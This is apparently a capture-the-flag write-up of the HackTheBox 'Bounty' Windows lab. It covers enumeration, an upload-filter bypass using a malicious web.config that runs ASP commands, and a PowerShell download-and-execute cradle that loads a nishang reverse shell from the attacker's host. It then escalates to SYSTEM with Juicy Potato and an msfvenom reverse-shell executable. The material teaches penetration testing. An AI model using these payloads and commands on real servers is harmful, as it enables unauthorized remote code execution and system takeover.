 ```yaml
---
layout: post
title: HackTheBox - Bounty
date: 2021-08-14 19:08:40 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/windows/easy/bounty/Bounty.png
---
```


## Enumeration

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Bounty-full-port-scan.txt 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up (0.11s latency).
Not shown: 65534 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
{% endhighlight %}

### Port 80 (Microsoft-IIS/7.5)

![](/assets/img/htb/machines/windows/easy/bounty/80.png)

#### `gobuster`

{% highlight bash %}
$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x .txt,.aspx

=====================================================
/aspnet_client        (Status: 301) [Size: 156] [--> http://10.10.10.93/aspnet_client/]
/transfer.aspx        (Status: 200) [Size: 941]
/uploadedfiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedfiles/]
=====================================================
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/bounty/transfer.png)

After trying to upload a file with the `.aspx` extension, we encounter this error message:

![](/assets/img/htb/machines/windows/easy/bounty/invalid_file.png)

However, if we just change the extension to `.jpg`, the file will be successfully uploaded into the `/uploadedfiles` folder:

![](/assets/img/htb/machines/windows/easy/bounty/uploaded_successfully.png)

![](/assets/img/htb/machines/windows/easy/bounty/errors.png)

#### Burp Intruder

In order to figure out which extensions are allowed on this web server, we'll be using **Burp Intruder**. Here are the steps:

1. Enable [FoxyProxy](https://addons.mozilla.org/fr/firefox/addon/foxyproxy-standard/) (or install it if you don't)
2. Run **Burp** and ensure **Intercept is on** 
3. Upload a file with the `.jpg` extension
4. Go to the Proxy Tab and send the **HTTP request** to the **Intruder**

![](/assets/img/htb/machines/windows/easy/bounty/send_intruder.png)

5. Go to to the **Positions** tab, click on `Clear`, then select the `.jpg` and click twice on `Add` to append payload markers. Then you can write whatever you want between them:

![](/assets/img/htb/machines/windows/easy/bounty/payload_positions.png)

> In the example above, I forgot to remove the dot before the `§EXTENSION§`

6. Everything between these symbols will be replaced by our payload list.

![](/assets/img/htb/machines/windows/easy/bounty/load.png)

I used `/usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt`:

![](/assets/img/htb/machines/windows/easy/bounty/raft.png)

7. Make sure to uncheck `URL encode` and click on `Start attack`:

![](/assets/img/htb/machines/windows/easy/bounty/url_encode.png)

![](/assets/img/htb/machines/windows/easy/bounty/start.png)

As we can see in the screenshot below, extension returning HTTP response with a length of 1350 are accepted by the web server.  

![](/assets/img/htb/machines/windows/easy/bounty/diff.png)

After looking for "IIS 7 .config reverse shell", we can find two guided articles on how to get remote code extension by uploading `web.config` file: 

1. [Hacktricks - Execute .config files](https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services#execute-config-files)
2. [Uploading web.config for Fun and Profit 2](https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/)

![](/assets/img/htb/machines/windows/easy/bounty/search.png)

Uploading this file results in running ASP code on the target server:

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
Response.write(1+2)
Response.write("<!-"&"-")
%>
-->
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/bounty/3.png)

## Exploitation

If we replace the content of `web.config` by the following:

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />        
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!-- ASP code comes here! It should not include HTML comment closing tag and double dashes!
<%
Response.write("-"&"->")
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
Response.write("<!-"&"-")
%>
-->
{% endhighlight %}

We get the result of the `whoami` command:

![](/assets/img/htb/machines/windows/easy/bounty/merlin.png)


Okay now let's upload a reverse shell script (via [nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)) and execute it from the web server:

{% highlight bash %}
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "" >> shell.ps1 
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress $(vpnip) -Port 1234" >> shell.ps1 
{% endhighlight %}

- Run a listener with `rlwrap nc -lnvp 1234` as well as a web server via `python3 -m http.server 80`.

- Replace the `Set cmd` variable in the `web.config` file by this one:

{% highlight powershell %}
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.12/shell.ps1')")
{% endhighlight %}

Upload the new `web.config` file and open it from your web browser / or by using `curl` and we got a shell:

![](/assets/img/htb/machines/windows/easy/bounty/reverse_shell.png)

## Privesc

If we take a look at our privileges, we can see that `SeImpersonatePrivilege` is enabled so we probably can run [**Juicy Potato**](https://github.com/ohpe/juicy-potato) exploit:

{% highlight cmd %}
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
{% endhighlight %}

This privilege is designed to allow a service to impersonate other users on the system. Juicy Potato exploits the way Microsoft handles tokens in order to escalate local privileges to **SYSTEM**.

We can get the executable from the [releases page](https://github.com/ohpe/juicy-potato/releases) and upload it to the target web server:

{% highlight powershell %}
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/JuicyPotato.exe',"c:\Windows\System32\spool\drivers\color\JuicyPotato.exe")
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/bounty/juice.png)


In order to use this exploit, we need a program to launch. We will be using a reverse shell executable generated via `msfvenom`:

{% highlight bash %}
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=$(vpnip) LPORT=53 -f exe -o privesc.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: privesc.exe
{% endhighlight %}

Then we transfer it to the target machine:

{% highlight powershell %}
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.12/privesc.exe',"c:\Windows\System32\spool\drivers\color\privesc.exe")
{% endhighlight %}

Finally we can execute it and get a shell as **SYSTEM**:

{% highlight powershell %}
PS C:\Windows\System32\spool\drivers\color> .\JuicyPotato.exe -l 1337 -p privesc.exe -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
{% endhighlight %}

![](/assets/img/htb/machines/windows/easy/bounty/system.png)

___

## Useful links

- [Hacktricks - Execute .config files](https://book.hacktricks.xyz/pentesting/pentesting-web/iis-internet-information-services#execute-config-files)
- [Uploading web.config for Fun and Profit 2](https://soroush.secproject.com/blog/2019/08/uploading-web-config-for-fun-and-profit-2/)
- [THM - Burp Suite](https://tryhackme.com/room/rpburpsuite)
- [C2 server Merlin](https://github.com/Ne0nd0g/merlin)
- [nishang - `Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
- [Juicy Potato](https://github.com/ohpe/juicy-potato)